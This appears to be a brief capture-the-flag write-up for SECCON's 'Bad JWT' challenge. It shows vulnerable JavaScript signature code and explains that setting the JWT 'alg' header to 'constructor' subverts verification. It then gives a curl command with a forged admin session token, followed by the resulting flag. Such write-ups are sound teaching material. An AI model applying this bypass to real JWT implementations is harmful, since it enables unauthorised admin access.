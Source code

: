# Bad JWT

## Vulnz

```
const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
const signature = algorithms[header.alg.toLowerCase()](data, secret);
```

`header.alg.toLowerCase()` is controllable, so we can use `constructor` to control the value of `signature`.

## Exploit

```
curl -H "Cookie: session=eyJhbGciOiJjb25zdHJ1Y3RvciIsInR5cCI6IkpXVCJ9.eyJpc0FkbWluIjp0cnVlfQ==.eyJhbGciOiJjb25zdHJ1Y3RvciIsInR5cCI6IkpXVCJ9ＮeyJpc0FkbWluIjp0cnVlfQ" http://bad-jwt.seccon.games:3000/
```

=>

`SECCON{Map_and_Object.prototype.hasOwnproperty_are_good}`
